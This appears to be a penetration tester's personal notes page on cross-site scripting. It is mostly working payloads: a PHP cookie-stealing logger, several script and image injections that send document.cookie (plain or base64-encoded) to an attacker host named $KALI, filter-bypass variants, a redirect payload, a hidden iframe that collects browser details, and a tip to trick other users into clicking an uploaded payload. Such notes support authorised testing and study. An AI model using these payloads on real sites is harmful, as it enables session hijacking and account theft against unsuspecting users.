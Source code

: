 #### Payload all the things resource:
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
```

#### Test for XSS

Check if HttpOnly is disabled.

[[rlwrap]]

![[Pasted image 20220926131911.png]]

```
<img+src%3dhttp%3a//$KALI/x+/>>
```

![[Pasted image 20220926131833.png]]

#### steal.php

Save on to kali as `/var/www/html/steal.php`
```php - kali
<?php
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fn="log.txt";
$fh=fopen($fn,'a');
$cookie=$_GET['q'];
fwrite($fh, $ip.' '.$browser. ' '.$cookie. " \n");
fclose($fh);
echo "Thanks for your info" . $_POST['name'] . "!!!";
?>
```

```bash - kali
sudo chmod 777 /var/www/html/steal.php
```

```bash - kali
service apache2 start
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```html - target
<script>var i=new Image();i.src="http://$KALI/steal.php?q="+document.cookie;</script>
```

now just view the log:
```firefox
127.0.0.1/log.txt
```

Can also be used in file uploads if it allows! Try finding uploaded URL and send that link out for others to click!

#### Base64 encode

The btoa() function is used to encode the cookies as base64 and then append it to the IP address. URL encode this payload and repeat the request.

[[rlwrap]]

```
<img src=x onerror=this.src='http://$KALI/?cookies='+btoa(document.cookie)
/>
```

Now decode the base64 value.  Remember `%3D` is `=`.

#### New Awesome payload
Replaces `<script>alert(1)</script>`

```html
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

#### Basic payloads
```html
<script>alert('XSS')</script>
```

```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```

```html
"><script>alert('XSS')</script>
```

```html
"><script>alert(String.fromCharCode(88,83,83))</script>
```

```html
<script>\u0061lert('22')</script>
```

```html
<script>eval('\x61lert(\'33\')')</script>
```

```html
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
```

```html
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
```

#### Img payloads
```html
<img src=x onerror=alert('XSS');>
```

```html
<img src=x onerror=alert('XSS')//
```

```html
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

```html
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```

```html
<img src=x:alert(alt) onerror=eval(src) alt=xss>
```

```html
"><img src=x onerror=alert('XSS');>
```

```html
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

Svg payloads
```html
<svgonload=alert(1)>
```

```html
<svg/onload=alert('XSS')>
```

```html
<svg onload=alert(1)//
```

```html
<svg/onload=alert(String.fromCharCode(88,83,83))>
```

```html
<svg id=alert(1) onload=eval(id)>
```

```html
"><svg/onload=alert(String.fromCharCode(88,83,83))>
```

```html
"><svg/onload=alert(/XSS/)
```

```html
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
```

```html
<svg><script>alert('33')
```

```html
<svg><script>alert&lpar;'33'&rpar;
```

// Div payload
```html
<div onpointerover="alert(45)">MOVE HERE</div>
```

```html
<div onpointerdown="alert(45)">MOVE HERE</div>
```

```html
<div onpointerenter="alert(45)">MOVE HERE</div>
```

```html
<div onpointerleave="alert(45)">MOVE HERE</div>
```

```html
<div onpointermove="alert(45)">MOVE HERE</div>
```

```html
<div onpointerout="alert(45)">MOVE HERE</div>
```

```html
<div onpointerup="alert(45)">MOVE HERE</div>
```


#### Example 1
- Something reflected on page?
	- `?default=English` : XSS
	- Test by changing value : `?default=AAAAA`
	- Inspect page:
	![[Pasted image 20220902124919.png]]

From the image above, we see we need to close out the option value  (`'>`), the options tag (`</option>`), and the select tag (`</select>`).  Then, create a h1 tag to test reflection on page.  Should see big bold TEST on page.

?default=
```html
'></option></select><h1>TEST</h1>
```

Next, try introducing script tag:
```html
'></option></select><script>alert('XSS')</script>
```

Using this to redirect user to other website:
```html
'></option></select><script>document.location.href="http://$KALI"</script>
```

If script tag is being filtered:
```html
'></option></select><img src=x onerror="alert('XSS')"/>
```

If there is an input box that reflects to page:
`<h1>Test</h1>`
![[Pasted image 20220902130252.png]]
`<script>alert('XSS')</script>`
If does not work, try bypass methods (`<SCRIPT>`, or `<SCRSCRIPTIPT>`)

XSS Filter bypass URL Encoding:
The "/" character is being filtered below:
![[Pasted image 20220905132535.png]]

`encodeURIComponent("<h1>Test</h1>");`
![[Pasted image 20220905132518.png]]

Testing input boxes:
![[Pasted image 20220902130624.png]]
![[Pasted image 20220902130644.png]]

Once found, set up listener and input script tag to steal cookies:
[[rlwrap]]
```html
<script>fetch('http://$KALI:80/'+document.cookie); /script>
```

Just modify cookie value in browser for win.

#### iframe test

[[rlwrap]]

```html
<iframe src=http://$KALI/report height="0" width="0"></iframe>
```

When a user connects to the page, we will receive there browser details:

![[Pasted image 20220505155251.png]]

#### Stealing Cookies and Session Information
[[rlwrap]]

```html
<script>new Image().src="http://$KALI/cool.jpg?output="+document.cookie;</script>
```

